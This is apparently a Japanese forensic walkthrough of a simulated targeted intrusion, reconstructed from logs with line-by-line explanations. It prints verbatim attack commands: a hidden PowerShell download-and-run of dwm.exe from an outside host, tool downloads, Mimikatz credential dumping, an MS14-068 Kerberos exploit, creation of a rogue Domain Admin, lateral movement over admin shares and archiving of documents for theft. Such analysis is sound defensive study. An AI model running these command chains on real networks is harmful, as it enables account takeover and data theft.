 # Interview.doc.lnkの感染
メールの添付ファイルを保存し、実行した。

# dwm.exeの感染
C:\Windows\System32\cmd.exe" /c start winword /m&powershell -windowstyle hidden $c='(new-object System.Net.WebClient).D'+'ownloadFile("""http://news-landsbbc.co/upload/21.jpg                                 """, """$env:tmp\dwm.exe""")';Invoke-Expression $c&C:\Users\MAEBAS~1.GUN\AppData\Local\Temp\dwm.exe "%CD%"  

とログにあり、細分化してみると
```sh
C:\Windows\System32\cmd.exe" /c start winword /m
```
cmd.exeの呼び出したのちに
```PowerShell
powershell -windowstyle hidden $c='(new-object System.Net.WebClient).D'+'ownloadFile("""http://news-landsbbc.co/upload/21.jpg""", """$env:tmp\dwm.exe""")';Invoke-Expression $c
```
- windowstyle hidden: PowerShellウィンドウを非表示で実行。
- ファイルのダウンロード: new-object System.Net.WebClientを使用して、指定されたURLからファイル（21.jpg）をダウンロードし、$env:tmp\dwm.exeというパスに保存します。
- Invoke-Expression: ダウンロードされたスクリプトを実行します。
```PowerShell
C:\Users\MAEBAS~1.GUN\AppData\Local\Temp\dwm.exe "%CD%"
```
ここで、ダウンロードされたdwm.exeファイルを実行します。

その後dwm.exeは下記の内容を実行した。

<details><summary>詳細</summary> 
- whoami /all
  
- csvde.exe(Active Directoryのアカウント情報をcsvdeコマンドでエクスポートする)を`C:\Intel\Logs\l.txt`に保存
  
- タスクスケジューラにz.ps1、p.ps1を登録  
【z.ps1（http://anews-web.co/mz.exe", "C:\Intel\Logs\mz.exeを実行）】  
【p.ps1("http://anews-web.co/rar.exe", "C:\Intel\Logs\rar.exe") >> C:\Intel\Logs\p.ps1"】  
【p.ps1("http://anews-web.co/ms14068.rar", "C:\Intel\Logs\ms14068.rar") >> C:\Intel\Logs\p.ps1"】

- Mimikatzというツールを使用して、デバッグ特権を取得し、ログオンパスワードを抽出  
【cmd /c "C:\Intel\Logs\mz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > C:\Intel\Logs\c.txt"】

- MS14-068と呼ばれる脆弱性（Kerberosの脆弱性）を攻撃するためのエクスプロイトの実行（ms14-068.exe）
【cmd /c "C:\Intel\Logs\ms14068\ms14-068.exe -u maebashi.gunma@example.co.jp -s S-1-5-21-1524084746-3249201829-3114449661-1127 -d win-wfbhibe5gxz -p p@ssw0rd"】
`-u` maebashi.gunma@example.co.jp: 攻撃に使用するユーザー名を指定します。  
`-s` S-1-5-21-1524084746-3249201829-3114449661-1127: 攻撃に使用するセキュリティ識別子 (SID) を指定します。  
`-d` win-wfbhibe5gxz: ターゲットのドメインコントローラーのホスト名を指定します。  
`-p` p@ssw0rd: 攻撃に使用するパスワードを指定します。

- Mimikatzの実行、Kerberosチケットを使用情報をm.txtに保存  
cmd /c "C:\Intel\Logs\mz.exe "kerberos::ptc TGT_maebashi.gunma@example.co.jp.ccache" exit > C:\Intel\Logs\m.txt"

- `machida.kanagawa`ユーザの追加及びドメインアドミンに追加
【cmd /c "net user machida.kanagawa h4ckp@ss /add /domain"】
  cmd /c "net groups "Domain Admins" machida.kanagawa /add /domain"】
  
- ネットワークドライブをマッピング
【cmd /c "net use j: \\192.168.16.1\c$ h4ckp@ss /user:example.co.jp\machida.kanagawa"】
/user:example.co.jp\machida.kanagawaは、ネットワーク共有にアクセスするためのユーザー名を指定  

- マッピングした端末にmz.exeを送り付けている。  
【cmd /c "copy C:\Intel\Logs\mz.exe J:\Windows\Temp\mz.exe"】

- 細部不明
【cmd /c "C:\Intel\Logs\b.bat"】

- o.txtを生成して、保存している。
【cmd /c "type J:\Windows\Temp\o.txt"】
【cmd /c "copy J:\Windows\Temp\o.txt C:\Intel\Logs\o.txt"】

- r.txtにドキュメントデータを書き込んでいる。
【cmd /c "dir C:\Users\*.doc* /s /o-d > C:\Intel\Logs\r.txt"】

- machida.kanagawaを端末から削除
【cmd /c "net user machida.kanagawa /delete"】

- 管理共有の実行
【cmd /c "net use \\Win7_64JP_01\c$"】
【cmd /c "copy C:\Intel\Logs\win.exe \\Win7_64JP_01\c$\Intel\Logs\win.exe"】

- a
【cmd /c "C:\Intel\Logs\q.bat"】

- k.txtにドキュメントデータを書き込んでいる。
【cmd /c "dir \\Win7_64JP_01\c$\Users\chiyoda.tokyo.EXAMPLE\*.doc* /s /o-d > C:\Intel\Logs\k.txt"】

- 指定されたディレクトリ内の特定のファイルタイプ（.docx, .pptx, .txt, .xlsx）を、最大300MBずつ分割してアーカイブ
【cmd /c "C:\Intel\Logs\rar.exe a -r -ed -v300m -taistoleit C:\Intel\Logs\d.rar "\\Win7_64JP_01\c$\Users\chiyoda.tokyo.EXAMPLE\Documents" -n*.docx -n*.pptx -n*.txt -n*.xlsx"】

</details>

# 

